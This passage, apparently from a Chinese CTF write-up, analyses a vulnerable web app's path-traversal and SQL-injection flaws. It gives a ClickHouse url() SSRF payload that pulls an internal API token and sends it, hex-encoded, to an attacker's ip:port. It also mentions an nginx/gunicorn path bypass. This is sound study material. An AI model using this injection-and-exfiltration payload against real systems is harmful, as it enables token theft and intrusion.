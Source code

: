 > 简单分析下代码，存在一个 Upload 类，因为直接通过`os.path.join`拼接文件名，所以这里是存在文件上传穿越问题的，前提是需要获取到`token`，并且需要`ip`是`172`的也就是应该是用本机的`IP`发起请求，其次`render.__getattr__(data.name)()`中，通过`__getattr__`直接获取`render`其它属性。

1、关于`Clickhouse`数据库进行`SSRF`，在`Clickhouse`中存在`URL`参数能够发起`http`请求：

1.  **URL**:**HTTP**或**HTTPS**服务器地址，可以接受 GET 或 POST 请求（相应地用于 SELECT 或 INSERT 查询
    
2.  **format**：数据的格式
    
3.  **structure**：如`UserID UInt64，Name String`格式的表结构
    
4.  **headers**：`key1=value1，key2=value2`格式的标头。您可以设置 HTTP 调用的标头
    

2、如`select * from url('http://ip:port/','TabSeparatedRaw','x String'))`

表示通过`URL`函数获取数据，`TabSeparatedRaw`表示`返回的数据采用制表符分隔的原始数据格式`，`x String`表示`外部查询返回的数据类型为字符串`。

3、因为`sql = 'SELECT * FROM web.users WHERE id = ' + data.id`没进行任何过滤进行拼接的，可以通过请求`/api/token`的形式来获取`Token`,`||`是连接运算符。

```plain
SELECT * FROM url('http://ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String');
```

4、如何访问`query`路由呢，这里是`nginx+gunicorn`路径绕过。

[![](assets/1706957701-119ba6bd6591508949bd5a1c779de930.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202171449-83eb3b7a-c1ab-1.png)
